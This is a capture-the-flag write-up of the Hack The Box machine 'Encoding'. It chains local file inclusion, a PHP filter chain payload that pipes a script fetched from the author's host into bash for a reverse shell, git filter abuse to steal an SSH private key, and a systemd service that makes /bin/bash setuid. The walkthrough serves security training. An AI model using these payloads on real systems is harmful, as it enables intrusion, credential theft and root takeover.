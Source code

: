 ```yaml
---
title: "Hack The Box - Encoding [Medium]"
date: 2023-02-17T02:01:27+03:00
draft: false
tags: ["hackthebox"]
---
```


This machine took me a couple of days due to its complexity and some minor stuff that were a hassle to get right.

You will find the following vulnerabilities:
	- [Local File Inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
	- [Command Injection or RCE](https://book.hacktricks.xyz/pentesting-web/command-injection)

# Flag 1

I started by looking through the website to get some idea of its functionality. I saw that this is some sort of converter of data, like binary to hex and so on. But the interesting part was this:

>If required, you can specify a URL that will return data to be converted with the `file_url` parameter. This can be done for both string and integer convertions.

That quickly reminded me of local/remote file inclusion, and so I've tried it with the following payload:

```python
json_data = {
	'action': 'b64encode',
	'file_url' : 'file:///etc/passwd'
}
```

That gave me the contents of the `/etc/passwd` file encoded in base64, I used `base64 -d` to decode it. From there I saw another user `svc`.

I was also curious what's in the `/var/www/` directory, so I began enumerating the directory.

I ran `ffuf` on the main website `haxtables.htb/FUZZ` also ran `ffuf` for subdomain discovery.

```
$ ffuf -w $disc_wc/raft-small-directories-lowercase.txt -u http://haxtables.htb/FUZZ

$ ffuf -w $disc_wc/common.txt -u http://haxtables.htb/ -H "Host: FUZZ.haxtables.htb" -fs 1999
```

With those I found `api, image` subdomains, so I inspected them via the LFI vulnerability `/var/www/image/index.php` to check whether this application uses some kind of database or eventually some useful things. I found that `image` domain contains a git repository (through `git_status, git_log, git_commit` functions in `/var/www/image/index.php -> uitls.php`). This led me to believe that I could use that to gain user privileges later on. I decided to dump the repository and bear with me here I did it in the most ghetto way possible, through a local server that acted as a proxy for `gitdumper.sh`

```python
import requests
import json
from flask import Flask
import base64


app = Flask(__name__)


@app.route('/<path:filepath>')
def index(filepath):
    json_data = {
        'action': 'b64encode',
        'file_url' : "file://" + "/var/www/image/" + filepath
    }
    response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
    d = json.loads(response.text.strip())
    res = base64.b64decode(d["data"])
    return res
```

```
$ gitdumper.sh http://localhost:5000/.git/ ./dump_repo
```

Then I used the `git ls-files` to figure what other files are in the folder.

```
$ git ls-files
actions/action_handler.php
actions/image2pdf.php
assets/img/forestbridge.jpg
includes/coming_soon.html
index.php
scripts/git-commit.sh
utils.php
```

I saw the `actions/action_handler.php` source code by using the LFI vulnerability.

```php
<?php
include_once 'utils.php';
if (isset($_GET['page'])) {
    $page = $_GET['page'];
    include($page); # <-- BruhMoment
} else {
    echo jsonify(['message' => 'No page specified!']);
}
?>
```

It is pretty obvious that this code is vulnerable to LFI, and I can use it to gain a reverse shell through PHP Filters. But I can't access this page directly, so I can use the first LFI to execute this LFI to execute the PHP filters RCE... 

And this is me figuring out this after 2 days of trying...

![rwojak](/random/rwojak.jpg)

I generated a payload with the [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator).

```
$ python3 php_filter_chain_generator.py --chain '<?= `curl http://myIp/rev_bash_norm.sh|bash` ;?>'
```

And I hosted a web server containing the `rev_bash_norm.sh`, I won't show the full monstrosity of the generated filter request but in the end it looked like this:

```http
POST /v3/tools/string/index.php HTTP/1.1
Host: api.haxtables.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 12920

{
    "action": "b64encode",
    "file_url" : "email@image.haxtables.htb/actions/action_handler.php?page=php://filter/<bruhmoment>"
}
```

Whenever executed, this request will spawn a reverse shell.

The `www-data` to `svc(user)` was honestly too much for me, and I turned to some write-ups. 

> The next section is what I've tried and failed, feel free to skip it.

`<i-tried-this>`
I was pretty sure that it has something to do with the `git` scripts and I only had `rwxr-xr-x` permissions of the `.git` folder, so I've tried to simulate file edit by using the dumped repository and change all the files in the `.git` directory on the server. 

And that was kinda the right approach, but I didn't notice the `ssh` keys that I needed to retrieve, so I was hard stuck at this, and I went to some write-ups. 

`</i-tried-this>`

Check [gatogamer1155](https://gatogamer1155.github.io/htb/encoding/)'s write-up for gaining access to the user and retrieve the first flag.

TLDR: 
* Creates an executable file `/tmp/readkey` with a content that reads the 
`~/.ssh/id_rsa` file and saves it to file. 
- Creates a git attributes file with a new filter called indent:  `'*.php filter=indent'` 
- Sets the Git configuration `filter.indent.clean` to the command `/tmp/readkey`. This tells Git to apply the `indent` filter to files ending in `.php` and to use the `/tmp/readkey` command to process the filter.
- Execute the `/var/www/image/scripts/git-commit.sh` with `sudo -u svc`
- The filter is then applied, and you can read the private key file.

> **NOTE:** Make sure that whenever you save the private key on your machine add an empty line at the end of the file otherwise you will get an error!

After logging with the `svc` user, you can read the first flag.

# Flag 2

Honestly, this was too easy, but I didn't mind it since I spent too much time doing this box. 

Executing the `sudo -l` would give you the executables that you can execute as root.

```
(root) NOPASSWD: /usr/bin/systemctl restart *
```

I had to create a service that looks like that and place it under `/etc/systemd/system/syl.service`

```toml
[Service]
Type=simple
ExecStart=chmod +s /bin/bash
[Install]
WantedBy=multi-user.target
```

And simply execute:

```
$ sudo /usr/bin/systemctl restart syl
$ bash -p
bash-5.1# cat root/root.txt
. . .
```
